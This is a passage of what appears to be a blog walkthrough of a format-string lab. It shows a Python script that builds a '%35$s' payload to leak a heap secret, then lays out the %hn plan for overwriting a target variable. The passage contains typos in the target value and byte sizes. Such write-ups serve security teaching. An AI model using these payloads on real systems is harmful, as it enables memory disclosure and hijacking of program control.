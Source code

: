 ![task-5-a](https://github.com/iukadike/blog/assets/58455326/e91c19e1-379a-4a7d-a5ad-5505f12c2440)


After a number of trials and errors, I was able to determine that the offset of our input from the beginning of the stack is 34. Thus, it will take 34 %x to print out the first eight bytes of my input.


#### Printing Out Heap Data

There is a secret message that is stored on the heap when the program runs. We know that the memory address of this secret message on the heap is 0x0000555555556008. In order to print out the value stored in this memory address, while constructing our format string, we will have to put 0x0000555555556008 after all the format specifiers.

Our initial code that achieves this is:

```python
#!/usr/bin/python3
import sys

secret = 0x0000555555556008

# Start the string with the format specifiers
# I pad zeros to keep the lenght at 8-bytes
content = ("%00035$s").encode('latin-1')

# Append the address
content += (secret).to_bytes(8,byteorder='little')

# Append a newline
content += ("\n").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```

![task-5-b](https://github.com/iukadike/blog/assets/58455326/e80bb554-beb2-49a9-a782-a6ae83363a4b)



#### Modifying the Target Value to 0xAAAABBBBCCCCDDDD

The objective of this task is to modify the value of the target variable that is defined in the server program. If this target variable holds an important value that can affect the control flow of the program, attackers can change the behavior of the program if they can modify this value. We know that the memory address of the target variable is 0x0000555555558010.

I will be using %hn to modify the target address, 2 bytes at a time. I am going to place 0xAAAABBBBCCCCCDDDD into 0x0000555555558010, two bytes at a time.

Our program is a 64-bit program, so our address is an 8-byte address. Our machine is little-endian, so we break `0xAAAABBBBCCCCCDDDD` into four parts with four bytes each.
- 0x0000555555558010   <-- 0xDDDD
- 0x0000555555558012   <-- 0xCCCC
- 0x0000555555558014   <-- 0xBBBB
- 0x0000555555558016   <-- 0xAAAA
